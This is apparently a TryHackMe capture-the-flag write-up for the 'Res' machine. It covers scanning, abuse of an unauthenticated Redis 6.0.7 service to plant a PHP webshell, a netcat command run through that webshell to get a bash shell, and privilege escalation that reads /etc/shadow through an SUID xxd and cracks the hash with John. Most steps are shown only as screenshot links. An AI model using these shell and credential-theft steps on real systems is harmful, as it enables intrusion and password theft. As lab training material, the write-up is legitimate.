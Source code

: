 # Res - Tryhackme Writeup

Res is a vulnerable machine on TryHackMe. Though this machine, I was introduced to Redis (Remote Dictionary Server). It is the most popular key:value store for use as database, cache or queue. Redis is totally insecure to let it be exposed over network. Redis does not have access control implementation and also it does not support encryption.

# Walkthourgh  - Table of Contents

- [Reconnaissance](#Reconnaissance)
- [Vulnerability Identification](#Vulnerability-Identification)
- [Exploitation](#Exploitation)
- [Post-Exploitation](#Post-Exploitation)

*P.S. In my walkthrough, I have two different IP's for Res vulnerable machine. When I was working through this activity, the time on the vulnerable machine expired and I had to restart it. Hence two IPs (10.10.131.41 and 10.10.47.158).*

## Reconnaissance

Nmap scan to find out the open ports and services

```nmap -sV  -sC -p- 10.10.131.41```

![nmap scan]/images/nmap_scan.png

From the results we see that we have an Apache web server running on port 80 and Redis 6.0.7  on port 6379.

## Vulnerability Identification

1. Port 80 running Apache web server

Visiting the web application on http://10.10.131.41:80, displayed a standard Apache landing page. Nothing was revealed by examining the source code

[Web Application on Port 80](/images/web_application.png)

Next I ran a directory scan using Dirbuster to look for any hidden directories or files. but no hidden directories was found.

[web directory enumeration screenshot](/images/dirbuster.png)

Moving on to next open port 6379 and enumerating the Redis service.

2. Port 6379 running Redis 6.0.7

After researching on Redis, I found out following issues that could be exploited.
* By default Redis can be accessed without credentials
* Using Redis we could write a webshell, if we know the directory path of the web application.

To access Redis on 10.10.131.41, I installed redis-tools on my kali machine

```sudo apt-get install redis-tools```

[redis_tools installation screenshot](/images/redis_tools.png)

[redis connect screenshot](/images/connect_redis.png)

[redis info screenshot](/images/info_redis.png)

Checking the webpage, I found that it works.

[Webshell execution screenshot](/images/webshell_execution.png)

Make a netcat connection to the attacker IP

```10.10.131.41/shell.php?c=nc -e /bin/bash -lnvp 8888```

[access screenshot](/images/user.png)

###Privilage Escalation
[suid screenshot](/images/xxd_0.png)
[xxd screenshot](/images/xxd.png)

local user password hash from /etc/shadow file
[password hash screenshot](/images/shadow.png)

John the ripper to crack the password
[password cracked screenshot](/images/john.png)

Root access
[sudo screenshot](/images/root_access.png)







